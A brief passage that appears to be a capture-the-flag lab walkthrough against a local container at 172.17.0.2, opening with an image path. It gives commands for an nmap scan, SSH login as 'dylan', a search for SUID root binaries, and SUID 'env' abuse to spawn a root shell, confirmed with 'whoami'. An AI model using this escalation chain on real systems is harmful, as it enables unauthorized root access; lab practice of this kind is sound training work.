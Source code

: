 ```bash
   nmap -sS -n -Pn -sVC -oN injection.txt 172.17.0.2
   ```

```bash
   ssh dylan@172.17.0.2
   ```

```bash
   find / -perm 4000 -user root
   ```

```bash
   ./env /bin/sh
   ```


When you use those commands to check that you are ROOT you have to write "*whoami*" command.
